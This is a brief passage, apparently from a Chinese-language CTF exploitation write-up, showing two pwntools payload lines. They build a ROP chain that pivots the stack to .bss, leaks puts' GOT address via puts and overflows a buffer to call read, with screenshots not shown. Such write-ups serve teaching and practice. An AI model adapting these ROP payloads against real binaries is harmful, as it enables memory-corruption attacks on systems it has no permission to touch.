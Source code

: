 [![](assets/1701606597-d8042a88f280a703f9dcfb4f47d562df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170301-f1968a92-845e-1.png)

rsp 调试正常后，那么我们下一次则可以进行 rop 链构造

```bash
#puts(puts_got)
pl = p64(bss6+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3
```

​`bss6+0x20`​基础上再加 0x10（固定模板）

[![](assets/1701606597-e9a85b45c1025b963df6fcc54ca4f7f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170308-f5ee2db6-845e-1.png)

‍

[![](assets/1701606597-11e0ee2cc2e074b08bb78e7bfcf73258.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170312-f84f2790-845e-1.png)

```bash
pl = b'a'*0x20+p64(bss6+0x40)+p64(read) #4
```

[![](assets/1701606597-b46786b4d9f94d1e8a9ad19d7a3f0904.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170320-fd66d714-845e-1.png)
